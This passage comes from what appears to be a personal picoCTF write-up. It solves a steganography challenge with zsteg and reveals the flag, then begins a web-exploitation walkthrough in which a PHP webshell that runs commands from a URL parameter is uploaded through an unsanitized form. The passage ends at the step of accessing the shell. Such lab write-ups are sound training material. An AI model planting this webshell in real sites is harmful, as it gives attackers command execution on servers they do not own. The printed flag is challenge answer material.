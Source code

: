 ### Step 2: Manual Pixel Analysis
I ran some python code on the RGB channels but nothing was readable or useful really. After hitting this wall and being stuck here for a while with no progress I was a little confused but made a breakthrough soon after.

### Step 3: Utilizing zsteg
In researching for solutions I found the tool `zsteg` which is built for PNG LSB steganography. It extracts and analyzes the bit planes of an images color channels trying different combinations and orders to reveal embedded data. 

```sh
zsteg red.png
```

After installing and running `zsteg` on `red.png` I noticed what seemed to be a Base64 string. I entered the Base64 into a decoded and got the flag.

The flag was embedded in the LSB (bit 0) across all four channels. (Red, Green, Blue, Alpha) *Alpha is the transparency.*

**Flag:**

`picoCTF{r3d_1s_th3_ult1m4t3_cur3_f0r_54dn355}`

## n0s4n1ty 1 (Web Exploitation) - 03/08/25 | ~20 mins
The challenge provided a web page with a file upload form titled "No Sanity" *(hinting at no sanitization)* that allowed users to upload a profile picture, preview it client-side, and submit it to upload.php. 

### Step 1: Analyze the Code
The challenge included HTML and JavaScript code for a file upload form, hinting that the vulnerability lay in how files were handled. The title "No Sanity" suggested a lack of sanitization, which allows for arbitrary file uploads.

### Step 2: Testing File Upload with a Webshell
Unsanitized file uploads often allow PHP files to be uploaded and executed. A webshell would give us command execution.

**Created shell.php**
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
} else {
    echo "No command provided.";
}
?>
```

The `shell.php` file was uploaded correctly as thought.

### Step 3: Accessing the Webshell
If shell.php is in a web-accessible directory, we could trigger it and run commands by passing them via the cmd parameter.
